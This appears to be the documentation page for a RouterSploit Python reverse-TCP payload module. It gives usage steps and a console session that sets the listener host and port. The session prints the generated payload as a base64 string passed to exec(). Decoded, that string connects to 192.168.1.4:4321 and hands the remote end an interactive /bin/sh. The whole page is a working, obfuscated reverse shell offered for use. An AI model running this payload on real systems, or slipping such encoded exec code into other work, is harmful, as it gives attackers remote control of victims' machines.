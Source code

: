 ## Description

Module generates payload that creates interactive tcp reverse shell by using python. 

## Verification Steps

  1. Start `./rsf.py`
  2. Do: `use payloads/python/reverse_tcp`
  3. Do: `set lhost 192.168.1.4`
  3. Do: `set lport 4321`
  4. Do: `run`
  5. Module generates python tcp reverse shell payload

## Scenarios

```
rsf > use payloads/python/reverse_tcp
rsf (Python Reverse TCP) > set lhost 192.168.1.4
[+] lhost => 192.168.1.4
rsf (Python Reverse TCP) > set lport 4321
[+] lport => 4321
rsf (Python Reverse TCP) > run
[*] Running module...
[*] Generating payload
exec('aW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zCnM9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pCnMuY29ubmVjdCgoJzE5Mi4xNjguMS40Jyw0MzIxKSkKb3MuZHVwMihzLmZpbGVubygpLDApCm9zLmR1cDIocy5maWxlbm8oKSwxKQpvcy5kdXAyKHMuZmlsZW5vKCksMikKcD1zdWJwcm9jZXNzLmNhbGwoWyIvYmluL3NoIiwiLWkiXSk='.decode('base64'))
```
